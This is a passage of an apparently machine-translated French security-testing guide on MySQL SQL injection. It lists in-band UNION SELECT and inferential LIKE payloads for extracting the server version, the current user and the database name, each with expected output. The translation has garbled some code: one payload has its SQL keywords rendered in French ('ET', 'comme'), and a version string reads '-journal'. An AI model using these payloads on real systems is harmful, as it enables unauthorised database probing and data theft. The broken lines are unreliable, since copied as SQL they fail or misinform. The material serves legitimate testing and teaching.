 Celles-ci sont équivalentes car le résultat est le même.

En injection de bande :

`1 AND 1=0 UNION SELECT @@version /*`

Injection inférentielle :

`1 AND @@version like '4.0%'`

La réponse contiendrait quelque chose aux lignes de :

`5.0.22-journal`

#### Utilisateur de connexion

Il existe deux types d'utilisateurs sur lesquels MySQL Server s'appuie.

1. [USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_user) : l'utilisateur connecté au serveur MySQL.
2. [CURRENT_USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_current-user) : l'utilisateur interne qui exécute la requête.

Il y a une différence entre 1 et 2. La principale est qu'un utilisateur anonyme peut se connecter (si autorisé) avec n'importe quel nom, mais l'utilisateur interne MySQL est un nom vide (''). Une autre différence est qu'une procédure stockée ou une fonction stockée sont exécutées en tant qu'utilisateur créateur, si elles ne sont pas déclarées ailleurs. Cela peut être connu en utilisant `CURRENT_USER`.

En injection de bande :

`1 AND 1=0 UNION SELECT USER()`

Injection inférentielle :

`1 ET USER() comme 'root%'`

La réponse contiendrait quelque chose aux lignes de :

`user@hostname`

#### Nom de la base de données en cours d'utilisation

Il y a la fonction native `DATABASE()`

En injection de bande :

`1 AND 1=0 UNION SELECT DATABASE()`

Injection inférentielle :

`1 AND DATABASE() like 'db%'`

> Résultat attendu, une chaîne comme celle-ci :
>
> `dbname`

#### INFORMATION_SCHEMA

À partir de MySQL 5.0, une vue nommée [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) a été créée. Il nous permet d'obtenir toutes les informations sur les bases de données, les tables et les colonnes, ainsi que sur les procédures et les fonctions.
